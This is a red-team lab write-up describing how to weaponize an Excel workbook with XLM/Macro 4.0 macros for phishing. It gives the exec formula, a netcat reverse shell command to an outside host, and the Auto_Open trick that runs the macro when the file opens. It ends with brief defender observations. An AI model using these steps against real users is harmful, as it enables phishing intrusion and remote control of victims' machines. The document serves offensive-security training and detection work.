 ```yaml
---
layout: post
title: "phishing xlm macro 4.0"
date: 2024-06-18
categories: phishing-with-ms-office
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /phishing-with-ms-office/
---
```


# Phishing: XLM / Macro 4.0

This lab is based on the research performed by [Stan Hegt from Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/).

## Weaponization

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](../../../.gitbook/assets/phishing-xlm-create-new.png)

We can then execute command by typing into the cells:

```text
=exec("c:\shell.cmd")
=halt()
```

As usual, the contents of shell.cmd is a simple netcat reverse shell:

{% code title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](../../../.gitbook/assets/phishing-xlm-auto-open.png)

{% file src="../../../.gitbook/assets/excel-4.0-macro-functions-reference-1.pdf" caption="Excel 4.0 Macro Functions Reference.pdf" %}

{% file src="../../../.gitbook/assets/phishing-xlm.xlsm" caption="XLM Phishing.xlsm" %}

## Execution

Opening the document and enabling Macros pops a reverse shell:

![](../../../.gitbook/assets/phishing-xlm-shell-auto-open.gif)

Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

## Observations

As usual, look for any suspicious children originating from under the Excel.exe:

![](../../../.gitbook/assets/phishing-xlm-procexp.png)

Having a quick look at the file with a hex editor, we can see a suspicious string `shell.cmd` immediately, which is of course good news for defenders:

![](../../../.gitbook/assets/phishing-xlm-hex.png)

![](../../../.gitbook/assets/phishing-xlm-strings.png)

## References

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/" %}
@spotheplanet
